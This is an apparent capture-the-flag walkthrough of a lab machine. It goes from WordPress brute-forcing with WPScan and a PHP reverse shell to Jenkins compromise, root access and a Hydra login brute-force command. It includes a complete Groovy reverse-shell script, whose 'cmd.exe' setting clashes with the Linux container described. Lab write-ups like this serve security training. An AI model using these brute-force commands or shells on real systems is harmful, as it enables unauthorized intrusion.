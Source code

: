 # Scanning
As always, we begin by conducting a full port scan using Threader3000 followed by Nmap. We find a default web server and SSH running on the machine.

![image](https://github.com/vivekprm/hackers-manual/assets/2403660/b0224016-ebcc-44dc-b147-263d9d2445ef)

![image](https://github.com/vivekprm/hackers-manual/assets/2403660/e363587a-5c83-4100-9119-ad85d415f096)

# Enumeration
Quick inspection of the webserver reveals a default Apache web page.

![image](https://github.com/vivekprm/hackers-manual/assets/2403660/d7ae0972-87ce-4553-b31c-bb90bc49c4fc)

Utilizing Dirsearch we locate the a subdirectory "/blog," which leads us to a Wordpress website for Internal.

![image](https://github.com/vivekprm/hackers-manual/assets/2403660/ebc59474-ce35-4f64-a526-41f043ffce83)

![image](https://github.com/vivekprm/hackers-manual/assets/2403660/100cc0a2-cd45-43aa-a0e0-2ec5550b8885)

Knowing that we have a Wordpress website we can enumerate further using the WPScan tool.
![image](https://github.com/vivekprm/hackers-manual/assets/2403660/c7ad3fde-5866-404c-88b2-d25101be418e)

![image](https://github.com/vivekprm/hackers-manual/assets/2403660/7fe4f2fc-0c59-4219-8229-a39093be6e35)

By scanning for vulnerable plugins and usernames we discover one single user — admin. We can then use the WPScan bruteforce function to locate credentials that 
can be utilized to log in.

```
wpscan — url ipaddr/blog — usernames admin — passwords rockyou.txt — max-threads 50
```

![image](https://github.com/vivekprm/hackers-manual/assets/2403660/09a8047a-398c-490d-a570-a995dc58d578)

# Exploitation
Having discovered possible credentials we can attempt to log into the Wordpress backend, which is successful.

![image](https://github.com/vivekprm/hackers-manual/assets/2403660/4d2e2c11-7119-4b67-80e2-6a56066cc9ce)

Now that we are logged in we discover a default post in pages containing some credentials, but these are not useful and do not actually point at any valid user.

![image](https://github.com/vivekprm/hackers-manual/assets/2403660/aca790d7-4f5e-46bb-9fd4-f2b869a78a2a)

Moving from this discovery, we next check out the Theme Editor and recognize it is running TwentySeventeen. Knowing that theme editors can be utilized to upload 
php reverse shells, we upload one to the 404.php page.

![image](https://github.com/vivekprm/hackers-manual/assets/2403660/0ba2b17f-92fa-472d-bedc-43fd9520f008)

We need to start a netcat listener on the port we declared in the payload and navigate to the theme’s webpage (/wp-content/themes/twentyseventeen/404.php). This 
executes the reverse shell and grants us initial access to the host.

![image](https://github.com/vivekprm/hackers-manual/assets/2403660/02e45eaf-51ce-40f8-af17-9ea20ee8cb04)

From here much of the challenge requires manual enumeration. In creating the challenge I purposely hid credentials in the /opt folder without including words 
like "password" that are picked up by tools like Linpeas. Navigating to that directory and locating the wp-save.txt file reveals credentials for the Aubreanna user.

![image](https://github.com/vivekprm/hackers-manual/assets/2403660/8c80444c-5c2b-41dc-bf4b-b5cc6cf8e796)

We can then attempt to log in with these credentials via SSH, which is successful.

![image](https://github.com/vivekprm/hackers-manual/assets/2403660/82e05720-892f-4f6f-b654-1e8b6ae11867)

Navigating to the home directory reveals the user.txt flag and a file named “jenkins.txt.” This file hints that there is an internal Jenkins server running on 
a 172.17.0.2:8080 address internally.

![image](https://github.com/vivekprm/hackers-manual/assets/2403660/e664a5f4-4541-4ac2-b3d5-242b5a006667)

We can utilize a SSH tunnel with the Aubreanna user to gain access to the internal server in order to access it via our browser. Notice that doing so also offers 
that we have access to the 172.17.0.0/24 network.

![image](https://github.com/vivekprm/hackers-manual/assets/2403660/71008558-18aa-4422-91be-8f3dc753d193)

We can then visit the Jenkins server web page by visiting 127.0.0.1:8080.

Trying several different sets of default credentials proves unsuccessful, however the credentials can be brute forced using tools like Burp Intruder, OWASP ZAP 
Fuzz, or Hydra. The below example uses ZAP. By capturing a failed log in attempt we can try to use admin as username and brute force the j_password field with a 
wordlist.

![image](https://github.com/vivekprm/hackers-manual/assets/2403660/4fe391ae-a967-4cbb-8dff-18ae79642ba0)

![image](https://github.com/vivekprm/hackers-manual/assets/2403660/e0a2f00c-fc63-4e1d-916d-adb7623fd712)

![image](https://github.com/vivekprm/hackers-manual/assets/2403660/d47d5100-ea1a-43bc-80ba-93c1679df188)

Considering the differences in size between response header sizes we can determine the correct password from an incorrect one and successfully log in.

![image](https://github.com/vivekprm/hackers-manual/assets/2403660/3f973577-cfc2-4d57-86ce-a396688201a1)

![image](https://github.com/vivekprm/hackers-manual/assets/2403660/24a70b67-05c0-41af-9a3e-9b34cea071ea)

![image](https://github.com/vivekprm/hackers-manual/assets/2403660/67882ede-7a38-4b5e-a877-038a090bb848)

Jenkins has a couple of different methods of command execution on the host machine, and I find the easiest to be utilizing a Groovy reverse shell in the Jenkins 
scripting console.

```groovy
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

![image](https://github.com/vivekprm/hackers-manual/assets/2403660/34f5843e-5632-423c-b97a-f20c455b32ea)

Utilizing the reverse shell and starting a netcat listener on the assigned port grants us access to another shell on the host.

![image](https://github.com/vivekprm/hackers-manual/assets/2403660/e98df00e-8c42-44cb-8ac5-e8b8bed320b3)

![image](https://github.com/vivekprm/hackers-manual/assets/2403660/170f3273-5e5a-40eb-abf0-80c89cac29c3)

The command line is limited, however, and it appears that we are actually inside of a Docker container. After manually enumerating more, we can discover 
credentials for the root user in the /opt directory as before.

Utilizing these credentials with SSH grants us root user access on the host machine.

![image](https://github.com/vivekprm/hackers-manual/assets/2403660/156e14cb-45a2-49f0-a40d-88923f4233a8)

We can then navigate to the /root directory and secure the root flag.

![image](https://github.com/vivekprm/hackers-manual/assets/2403660/1779aef5-fbdb-47c2-987c-7716209fcfeb)

```sh
hydra -s 8080 10.10.60.126 http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^:Invalid username or password" -L user.txt -P rockyou.txt -t 10 -w 30
```

